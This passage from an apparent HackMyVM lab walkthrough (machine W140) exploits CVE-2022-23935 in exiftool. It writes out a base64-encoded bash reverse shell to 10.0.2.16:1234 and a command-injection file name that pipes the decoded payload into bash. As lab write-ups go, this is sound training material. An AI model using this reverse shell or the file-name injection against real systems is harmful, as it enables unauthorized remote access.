 This also returns the version of the `exiftool` used on the target. We can use this version number to search for public exploits.
![](/assets/img/posts/walthrough/hackmyvm/2024-10-25-w140/cve.png)
![](/assets/img/posts/walthrough/hackmyvm/2024-10-25-w140/cve-found.png)

## Exploitation

We see that this version is vulnerable to CVE-2022-23935. We can read through the POC of this exploit shown below.
![](/assets/img/posts/walthrough/hackmyvm/2024-10-25-w140/poc.png)

We can use the same procedure as shown in the POC to create a file having a name that will executed by `exiftool`. 
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/W140/Misc File]
└─$ echo -n '/bin/bash -i >& /dev/tcp/10.0.2.16/1234 0>&1' | base64 
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjAuMi4xNi8xMjM0IDA+JjE=

┌──(pentester㉿kali)-[~/Desktop/HackMyVM/W140/Misc File]
└─$ cp test.png 'echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjAuMi4xNi8xMjM0IDA+JjE= | base64 -d | bash |'

┌──(pentester㉿kali)-[~/Desktop/HackMyVM/W140/Misc File]
└─$ ls
'echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjAuMi4xNi8xMjM0IDA+JjE= | base64 -d | bash |'   test.png
```
